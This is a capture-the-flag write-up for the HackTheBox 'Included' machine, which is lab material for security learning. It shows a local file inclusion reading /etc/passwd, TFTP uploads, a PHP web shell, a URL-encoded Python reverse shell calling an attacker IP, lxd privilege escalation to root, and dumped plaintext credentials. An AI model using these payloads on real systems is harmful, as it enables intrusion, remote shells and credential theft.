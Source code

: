 ```yaml
---
description: Included box from HackTheBox write up.
---
```


# Included

## Nmap scan

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap <MACHINE_IP> -sC -sV -p80          
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-10 20:33 EDT
Nmap scan report for <MACHINE_IP>
Host is up (0.052s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_Requested resource was http://<MACHINE_IP>/?file=index.php

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.56 seconds
```

Only port 80 open so let's check that website

## Port 80

Immediately i noticed that the URL was: `http://<MACHINE_IP>/?file=index.php` so i tried LFI with `http://<MACHINE_IP>/?file=../../../../../../etc/passwd`:

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin syslog:x:102:106::/home/syslog:/usr/sbin/nologin messagebus:x:103:107::/nonexistent:/usr/sbin/nologin _apt:x:104:65534::/nonexistent:/usr/sbin/nologin lxd:x:105:65534::/var/lib/lxd/:/bin/false uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin pollinate:x:109:1::/var/cache/pollinate:/bin/false mike:x:1000:1000:mike:/home/mike:/bin/bash tftp:x:110:113:tftp daemon,,,:/var/lib/tftpboot:/usr/sbin/nologin 
```

So we have that. I tried `gobuster` and `wfuzz` to try to get more information about the files in the machine but nothing there. I even run a full port scan but no luck.

## More ports?

I noticed that in the `passwd` file we can see a `tftp` user so maybe if we run an UDP scan with `nmap` we would find more open ports?

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sU <MACHINE_IP> -p69                                        130 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-10 21:29 EDT
Nmap scan report for <MACHINE_IP>
Host is up (0.052s latency).

PORT   STATE         SERVICE
69/udp open|filtered tftp

Nmap done: 1 IP address (1 host up) scanned in 0.92 seconds
```

Ok so maybe we are starting to get our luck back, looks like we have a `tftp` service, a really basic `ftp `(And without authentication!). Let's check it out.

### Tftp service

Instead of using the `tftp` client I preferred Python with the library `tftpy`

```bash
#! /usr/bin/env python3

import tftpy

client = tftpy.TftpClient('<MACHINE_IP>', 69)

# Create a testing file (Looks like gets deleted on upload)
f = open("test.txt", "w")
f.write("Im just a test file!")
f.close()

try:
	client.upload("test_remote.txt", "test.txt", timeout=5)
	print('---------------')
	print('File uploaded!')
	print('---------------')
except Exception as e:
	print(e)
```

I tested the script and it is reporting that the file is being uploaded. Now we need to know where it is, i searched for the service configuration file using the LFI we already have:

```
http://<MACHINE_IP>/?file=../../../../etc/default/tftpd-hpa
# /etc/default/tftpd-hpa TFTP_USERNAME="tftp" TFTP_DIRECTORY="/var/lib/tftpboot" TFTP_ADDRESS=":69" TFTP_OPTIONS="-s -l -c" 
```

And now we know that the files we upload are in `/var/lib/tftpboot` let's try it:

```
http://<MACHINE_IP>/?file=../../../../var/lib/tftpboot/test_remote.txt
Im just a test file! 
```

Cool! I guess we can try to upload something more interesting for us:

```php
<?php
    if(isset($_GET['cmd'])){
    	system($_GET['cmd']);
    }
?>
```

And the result:

```bash
http://<MACHINE_IP>/?file=../../../../var/lib/tftpboot/shell_remote.php&cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```

Now we have RCE and we can get a reverse shell! We can use this URL encoded payload:

```
http://<MACHINE_IP>/?file=../../../../var/lib/tftpboot/shell_remote.php&cmd=python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22<ATACKER_IP>%22%2C<ATACKER_PORT>%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27
```

## Into the machine

Once into the machine i looked around for a while, run `linpeas`... but I couldn't find anything obvious. After  a while I tried the password `Sheffield19` that we got in the Pathfinder machine and... worked! I guess I should have started with that.

### From mike to root

The user flag is in `/home/mike/user.txt`. I immediately saw that this user is part of the `lxd` group so we can use that for privilege escalation.

```bash
# Import the image
lxc image import ./alpine-v3.14-x86_64-20210909_2211.tar.gz --alias justAnImage

# Init the storage pool as default if it is not
lxd init

# Run the image with security.privileged
lxc init justAnImage nothingBadHere -c security.privileged=true

# Mount the host disk into the container /mnt/root path
lxc config device add nothingBadHere hostDisk disk source=/ path=/mnt/root recursive=true

# Start the container and attach to it
lxc start nothingBadHere
lxc exec nothingBadHere /bin/sh
```

Once into the container we can just go to `/mnt/root` to get access to the host file system as root. Once there, i like to add the SUID bit to the `bash` binary to get root access outside the container with: `bash -p`. The root flag is under `/root/root.txt` and also in the `/root` folder we can see a file called `login.sql`:

```bash
bash-4.4# cat login.sql 
-- MySQL dump 10.16  Distrib 10.1.44-MariaDB, for debian-linux-gnu (x86_64)
--
-- Host: localhost    Database: Markup
-- ------------------------------------------------------
-- Server version	10.1.44-MariaDB-0ubuntu0.18.04.1

/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8mb4 */;
/*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
/*!40103 SET TIME_ZONE='+00:00' */;
/*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
/*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
/*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
/*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;

--
-- Table structure for table `login`
--

DROP TABLE IF EXISTS `login`;
/*!40101 SET @saved_cs_client     = @@character_set_client */;
/*!40101 SET character_set_client = utf8 */;
CREATE TABLE `login` (
  `id` int(11) NOT NULL AUTO_INCREMENT,
  `username` varchar(100) NOT NULL,
  `password` varchar(100) NOT NULL,
  PRIMARY KEY (`id`)
) ENGINE=InnoDB AUTO_INCREMENT=2 DEFAULT CHARSET=utf8mb4;
/*!40101 SET character_set_client = @saved_cs_client */;

--
-- Dumping data for table `login`
--

LOCK TABLES `login` WRITE;
/*!40000 ALTER TABLE `login` DISABLE KEYS */;
INSERT INTO `login` VALUES (1,'Daniel','>SNDv*2wzLWf');
/*!40000 ALTER TABLE `login` ENABLE KEYS */;
UNLOCK TABLES;
/*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;

/*!40101 SET SQL_MODE=@OLD_SQL_MODE */;
/*!40014 SET FOREIGN_KEY_CHECKS=@OLD_FOREIGN_KEY_CHECKS */;
/*!40014 SET UNIQUE_CHECKS=@OLD_UNIQUE_CHECKS */;
/*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
/*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
/*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;
/*!40111 SET SQL_NOTES=@OLD_SQL_NOTES */;
```

It has new credentials: `Daniel:>SNDv*2wzLWf`
